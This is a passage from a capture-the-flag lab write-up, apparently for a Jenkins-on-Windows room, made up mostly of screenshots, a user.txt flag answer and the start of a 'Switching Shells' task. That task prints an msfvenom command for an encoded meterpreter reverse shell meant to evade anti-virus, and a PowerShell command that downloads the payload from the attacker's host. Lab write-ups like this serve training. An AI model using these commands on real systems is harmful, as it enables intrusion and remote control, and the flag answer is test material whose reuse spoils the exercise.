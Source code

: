 ![image](https://github.com/user-attachments/assets/ce8573a5-14d4-4ba0-ab33-5894b7e30561)
<p><br></p>
<p>After clicking <em>Build Now</em>, Build #3 is created, and available in <em>Build History</em>.</p>
<p><br></p>
![image](https://github.com/user-attachments/assets/6f205086-cff3-497c-89e4-b263fd3efb35)
<p><br></p>

![image](https://github.com/user-attachments/assets/5c109160-a2db-45fa-ba9b-030920dcf7f6)
<p><br></p>
![image](https://github.com/user-attachments/assets/b6df0b15-3104-4020-b78c-df7ee3888f49)
<p><br></p>
![image](https://github.com/user-attachments/assets/f065059a-498b-4f36-8ff2-410468e63f56)
<p><br></p>
![image](https://github.com/user-attachments/assets/b66e40ff-823e-4907-9fd2-bc5aa4785a1b)
<p><br></p>
![image](https://github.com/user-attachments/assets/e1c34d79-c2f7-491b-954d-e7bfd2bc0b29)
<p><br></p>

![image](https://github.com/user-attachments/assets/75daf0fb-2ee2-48b5-a9a5-2aebed47c098)


![image](https://github.com/user-attachments/assets/56ec077c-ea5f-427f-a75d-4167a479a730)

> 1.3 - <br>
>> <strong>No answer needed</strong>

<p><br></p>

> 1.4 - <em>What is the user.txt flag? </em><br>
>> <strong>79007a09481963edf2e1321abd9ae2a0</strong>

![image](https://github.com/user-attachments/assets/d12e0d34-d555-4afc-bd1e-33a5fd1feffd)

<p><br></p>

<p><h2>Task 2 - Switching Shells</h2>
To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.<br><br>
Use msfvenom to create a Windows meterpreter reverse shell using the following payload:<br><br>
  
> <strong>msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe</strong>

This payload generates an encoded x86-64 reverse TCP meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.<br><br>
After creating this payload, download it to the machine using the same method in the previous step:<br><br>

> <strong>powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"</strong>

